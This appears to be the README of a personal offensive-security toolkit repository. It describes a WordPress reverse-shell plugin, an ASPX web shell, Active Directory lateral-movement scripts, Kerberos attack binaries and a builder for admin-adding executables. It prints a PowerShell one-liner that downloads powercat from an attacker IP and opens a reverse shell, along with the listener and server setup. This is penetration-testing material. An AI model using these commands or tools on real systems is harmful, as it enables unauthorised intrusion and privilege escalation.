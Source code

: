 <pre>
offensive
---------
Tips and tricks etc. for offensive security and testing

BackdoorPlug.php
|
'-->  A WordPres plugin containing reverse shell. 
      Prerequirements: you need access to the WP to upload and activate plugins.
      Just change the host/port to whatever your listener is running on and maybe adjust the shell accordingly too, then just zip 
      it, upload the zip as a plugin and activate the plugin to get connected with the WP-instance.

checklist
|
'-->  A very basic list of pentest steps.

config.Library-ms
|
'-->  A config library file to open a connection to the address defined in the simple location url, which for example serves 
      malicious Windows shortcut to execute some nasty powershell like:
        powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.12.34:9090/powercat.ps1'); powercat 
        -c 192.168.12.34 -p 4000 -e powershell"
      Here you should have the following: 
        - wsgidav (WebDAV: wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/username/webdav/) server running, 
          serving the Windows shortcut file, which runs the command above
        - a Python httpd (python -m http.server 9090) serving the powercat.ps1
        - a netcat listener (nc -nvlp 4000) or similar to catch the resulting reverse shell.

dorks.google
|
'-->  Some random Google dorks to leverage while enriching your case data

enumhelper.ps1
|
'-->  A helper script for AD enumeration and lateral movement. Built on-the-go so might contain a lot of logical fallacies and 
      missing lots of error checks.
      Check the help section before running: .\enumhelper.ps1 "help" for somewhat of instructions.
      Can do: 
        - LDAP queries
        - User/pass testing over LDAP-query
        - List all properties of LDAP response object
        - Get the value of a specific LDAP property
        - Get all SPNs and related objects
        - Check if any SPNs are tied to a (service)account
        - Get DC info: name, hostname, OS, OS version, IPv4 and IPv6
        - Get AD device info: name, hostname, OS, OS SP, OS version, IPv4 and IPv6
        - Get AD user/group info by SID (converting a SID to a name for example)
        - Create PsExec.exe or PsExec64.exe
        - SID lookup from AD
        - DCOM lateral movement leveraging MMC
          - Also the possibility of building a reverse-shell command and initiating it on the target
        - Remote connectiong over PowerShell
        - Remote commands over WMI, WINRS, PsExec or PsExec64:
          - Also the possibility of building a reverse-shell command and initiating it on the target

kerbrute_linux_amd64
|
'-->  An awesome tool for Kerberos bruting from https://github.com/ropnop/kerbrute, here's a pre-built
      64bit Linux binary
      
KrbRelayUp.exe
|
'-->  Kerberos Relay attack binary. 
      Lost my mind trying to get this to build so then just ended up getting a prebuilt one from
      https://kb.offsec.nl/tools/techniques/krbrelayup/, thanks! The source is available at:
      https://github.com/Dec0ne/KrbRelayUp
      
nix-shell-tricks
|
'-->  Common tips and tricks etc. to use in Linux shell when being offensive or otherwise enumerating

php-trickery
|
'-->  Some PHP-tricks for offensive security

reverse_shell.aspx
|
'-->  Not my creation, credit goes to INSOMNIA SECURITY :: InsomniaShell.aspx, 
      brett.moore@insomniasec.com ::  www.insomniasec.com

sqli-tips
|
'-->  Tips for SQL injections

winbin.sh
|
'-->  Whip up custom executable/dll on the fly. So far only supports creating a x64 executable/dll for 
      adding a defined user with a defined password to the Administrators group or changing an existing user's password. 
      For example if you need to replace a bin which you have full control over to gain further foothold or to leverage a 
      missing DLL etc.

windows-shell-tricks-and-ad-tips
|
'-->  Common tips and tricks etc. to use with PowerShell / cmd when being offensive or otherwise enumerating and getting to know AD
</pre>
